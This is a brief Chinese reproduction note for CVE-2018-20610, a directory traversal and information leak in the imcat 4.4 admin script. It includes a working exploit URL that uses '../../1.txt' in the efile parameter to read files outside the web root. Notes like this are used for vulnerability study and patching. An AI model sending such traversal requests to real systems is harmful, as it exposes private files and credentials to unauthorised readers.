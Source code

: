 ```yaml
---
title: "（CVE-2018-20610）Imcat 4.4 敏感信息泄露"
id: zhfly2975
---
```


# （CVE-2018-20610）Imcat 4.4 敏感信息泄露

## 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本中的root/run/adm.php文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

先在D盘创建1.txt

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

```
http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn 
```

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

## 参考链接

> https://github.com/AvaterXXX/CVEs/blob/master/imcat.md